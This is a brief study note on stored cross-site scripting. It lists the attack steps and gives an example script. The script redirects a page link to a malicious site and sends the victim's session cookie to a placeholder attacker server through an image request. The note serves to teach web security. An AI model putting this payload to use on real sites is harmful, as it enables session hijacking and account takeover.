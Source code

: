 tags: #web-security #xss

# Stored XSS

links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[themes/000 Index|Index]]

---

- Attacker posts a script as a regular post / comment
- Post / comment is sent to the server
- When a user opens the post / comment the page is rendered and the script is executed
- Can lead to modifications in the DOM (change links, add buttons)
- Or, worse, sending personal information of users to attacker

Attacker Comment

```javascript
<script>
// Change the first link on the page
var links = document.getElementsByTagName('a');
if (links.length > 0) {
	links[0].href = "http://malicious-site.com";
	links[0].textContent = 'Important Update'; 
}

// Send the current session ID to the attacker's server
var sessionId = document.cookie.match(
	/sessionid=([^;]+)/)[1];
if (sessionId) {
	var attackerServer = 'http://attacker-site.com/';
	var img = new Image();
	// Browser sends GET with sessionID in path
	img.src = attackerServer +
		"collect?sessionid=" + sessionId;
		document.body.appendChild(img);
}
</script>
```

---
links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[themes/000 Index|Index]]
